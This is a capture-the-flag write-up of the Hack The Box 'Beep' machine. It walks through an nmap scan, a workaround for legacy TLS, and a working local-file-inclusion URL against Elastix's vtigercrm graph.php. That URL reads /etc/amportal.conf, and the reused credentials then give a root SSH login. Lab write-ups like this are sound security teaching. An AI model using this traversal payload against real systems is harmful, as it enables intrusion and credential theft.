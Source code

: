 ```yaml
---
clayout: ctf
title: Beep
date: 2025-08-27
image: /ctf/hack-the-box/machines/beep/info-card.png
type: Hack The Box

ctf:
    - name: Beep
      link: https://app.hackthebox.com/machines/5
      thumbnail: /ctf/hack-the-box/machines/beep/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/5
          thumbnail: /ctf/hack-the-box/machines/beep/pwned.png
---
```


## Machine Overview

The target is a legacy **CentOS/Elastix PBX** host exposing **SSH (OpenSSH 4.3)**, **HTTP/HTTPS (Apache 2.2.3 with forced redirect; TLSv1-only, expired self-signed cert)**. The practical attack path is **Elastix/vtigercrm LFI** in `/vtigercrm/graph.php` (`current_language` traversal, null-byte bypass), which leaks **/etc/amportal.conf** credentials. Due to password reuse on this box, those creds work over **SSH** (after enabling legacy KEX/hostkey like `diffie-hellman-group1-sha1` and `ssh-rsa`), yielding an immediate **root** shell with no local privilege escalation required.

## Enumeration

### Nmap

We begin with a basic service and version scan:

```bash
nmap -sCV -sV -A -oN nmap.txt 10.10.10.7
```

**Scan Results:**

```bash
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey:
|   1024 adee5abb6937fb27afb83072a0f96f53 (DSA)
|_  2048 bcc6735913a18a4b550750f6651d6d0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: APOP USER TOP IMPLEMENTATION(Cyrus POP3 server v2) AUTH-RESP-CODE RESP-CODES UIDL LOGIN-DELAY(0) STLS PIPELINING EXPIRE(NEVER)
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2            111/tcp   rpcbind
|   100000  2            111/udp   rpcbind
|   100024  1            790/udp   status
|_  100024  1            793/tcp   status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: OK NAMESPACE IMAP4rev1 LIST-SUBSCRIBED X-NETSCAPE Completed ID ANNOTATEMORE RENAME RIGHTS=kxte CONDSTORE IDLE LITERAL+ LISTEXT BINARY STARTTLS CATENATE UNSELECT UIDPLUS MAILBOX-REFERRALS IMAP4 NO THREAD=REFERENCES URLAUTHA0001 THREAD=ORDEREDSUBJECT SORT=MODSEQ QUOTA MULTIAPPEND SORT CHILDREN ATOMIC ACL
443/tcp   open  ssl/https?
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2025-08-27T10:55:50+00:00; +1s from scanner time.
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql?
4445/tcp  open  upnotifyp?
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
```

**Key findings:**

* Everything screams **ancient** (OpenSSH 4.3, Apache 2.2.3, Webmin 1.570).
* Mail stack (POP/IMAP/SMTP).
* Legacy TLS/crypto is expected.

## Web Enumeration

### Legacy TLS gotcha (HTTPS 443)

The site forces HTTPS, but only supports **TLSv1.0**. Modern browsers will fail.

![Error SSL Version](/ctf/hack-the-box/machines/beep/error-ssl-version.png)

Quick ways to confirm:

```bash
# Probe protocol
openssl s_client -connect 10.10.10.7:443 -tls1 </dev/null
```

> [!TIP]
> If using Firefox, set `about:config → security.tls.version.min = 1` (temporary) to allow TLS 1.0.
> ![Firefox TLS 1.0](/ctf/hack-the-box/machines/beep/firefox-tls-version.png)

After connecting, the portal identifies as **Elastix** and presents a login page.

![Elastix Login Page](/ctf/hack-the-box/machines/beep/elastix-login-page.png)

## Exploit Research → LFI in Elastix (vtigercrm)

Elastix bundles **vtigercrm**, and legacy builds are vulnerable to [**Local File Inclusion**](https://www.exploit-db.com/exploits/37637) via:

```url
/vtigercrm/graph.php?current_language=...&module=Accounts&action=
```

A classic payload reads arbitrary files using directory traversal. We need a null-byte terminator (`%00`) to bypass suffix appending.

**PoC (read FreePBX/Asterisk config):**

```url
https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action=
```

This leaks **`/etc/amportal.conf`**, which holds FreePBX/Elastix credentials, notably:

```conf
AMPDBUSER=asteriskuser
AMPDBPASS=<redacted>
...
```

> [!NOTE]
> On this host, the *Linux* root password was **re-used** and matched a credential from Elastix config.

## Shell Access (SSH with legacy crypto)

OpenSSH 4.3 uses deprecated algorithms. Modern clients must explicitly allow them:

```bash
ssh root@10.10.10.7 \
  -oKexAlgorithms=+diffie-hellman-group1-sha1 \
  -oHostKeyAlgorithms=+ssh-rsa \
  -oPubkeyAcceptedAlgorithms=+ssh-rsa
```

Enter the password recovered from `/etc/amportal.conf`.

```bash
Last login: Wed Aug 27 01:54:21 2025 from 10.10.14.23
Welcome to Elastix
[root@beep ~]# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel)
```

> [!INFO] 🚩 User & Root Flags
>
> * **User:** `/home/fanis/user.txt`
> * **Root:** `/root/root.txt`
